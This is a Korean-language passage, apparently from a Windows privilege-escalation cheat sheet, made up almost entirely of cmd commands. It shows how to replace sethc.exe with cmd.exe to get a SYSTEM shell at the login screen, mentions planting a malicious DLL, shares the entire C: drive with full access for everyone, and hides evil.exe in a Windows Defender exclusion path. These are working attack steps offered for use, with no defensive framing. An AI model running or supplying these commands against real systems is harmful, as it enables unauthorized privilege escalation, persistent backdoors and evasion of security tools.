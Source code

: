 ### 🔓 약한 파일 권한 악용

```cmd
:: 1. Program Files 쓰기 권한 확인
icacls "C:\Program Files" | findstr "Everyone.*F\|Users.*F\|Everyone.*M\|Users.*M"

:: 2. 쓰기 가능한 경우 DLL 하이재킹
:: 실행 파일이 로드하는 DLL을 찾아서 악성 DLL 배치
echo Creating malicious DLL...
:: 악성 DLL 생성 후 배치

:: 3. System32 쓰기 권한 (매우 드물지만 강력)
icacls "C:\Windows\System32" | findstr "Everyone.*F\|Users.*F"

:: 4. 시스템 파일 교체 (쓰기 권한 있는 경우)
takeown /f "C:\Windows\System32\sethc.exe"
icacls "C:\Windows\System32\sethc.exe" /grant %USERNAME%:F
copy "C:\Windows\System32\cmd.exe" "C:\Windows\System32\sethc.exe"
:: 로그인 화면에서 Shift 5번으로 SYSTEM cmd 실행
```

### 🌐 네트워크 공유 설정 오류

```cmd
:: 1. 네트워크 공유 확인
net share
net view \\localhost

:: 2. 익명 접근 가능한 공유 확인
net use Z: \\localhost\ShareName
dir Z:\

:: 3. 관리자 공유 접근 시도
net use \\localhost\admin$
net use \\localhost\c$

:: 4. 공유에서 민감한 파일 검색
dir Z:\ /s | findstr "password\|config\|backup"

:: 5. 공유 권한 수정 (권한 있는 경우)
net share NewShare=C:\ /grant:everyone,full
```

### 🛡️ Windows Defender 비활성화 악용

```cmd
:: 1. Windows Defender 상태 확인
sc query windefend
powershell "Get-MpComputerStatus" 2>nul

:: 2. 비활성화된 경우 악성 파일 배치
:: 탐지 없이 백도어나 해킹 도구 사용 가능

:: 3. 제외 목록 확인 (설정된 경우)
powershell "Get-MpPreference | Select-Object ExclusionPath"

:: 4. 제외 목록에 파일 배치
copy evil.exe "C:\ExcludedPath\legitimate.exe"

:: 5. 실시간 보호 상태 확인
reg query "HKLM\SOFTWARE\Microsoft\Windows Defender\Real-Time Protection" /v DisableRealtimeMonitoring
```
